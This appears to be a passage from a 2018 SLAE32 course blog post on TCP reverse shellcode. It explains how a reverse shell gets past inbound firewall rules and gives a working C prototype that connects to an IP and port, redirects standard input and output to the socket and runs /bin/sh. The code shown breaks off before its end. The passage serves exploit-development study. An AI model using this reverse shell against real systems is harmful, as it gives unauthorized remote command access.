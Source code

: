 ```yaml
---
layout: single
title: TCP reverse shellcode
date: 2018-11-18 12:00:00
classes: wide
header:
  teaser: /assets/images/slae32.png
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - tcp reverse shellcode
---
```


A TCP reverse shell connects back to the attacker machine, then executes a shell and redirects all input & output to the socket. This is especially useful when a firewall denies incoming connections but allows outgoing connections.

### C prototype
---------------
First, a C prototype is created to test the functionality before building the final shellcode in assembly.

This is the C protype used for the reverse shellcode:
```c
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    // Create addr struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);    // Port
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");  // Connection IP

    // Create socket
    int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == -1) {
        perror("Socket creation failed.\n");
        exit(EXIT_FAILURE);
    }

    // Connect socket
    if (connect(sock, (struct sockaddr *) &addr, sizeof(addr)) == -1) {
        perror("Socket connection failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Duplicate stdin, stdout, stderr to socket
    dup2(sock, 0); //stdin
    dup2(sock, 1); //stdout
    dup2(sock, 2); //stderr

    //Execute shell
    execve("/bin/sh", NULL, NULL);
```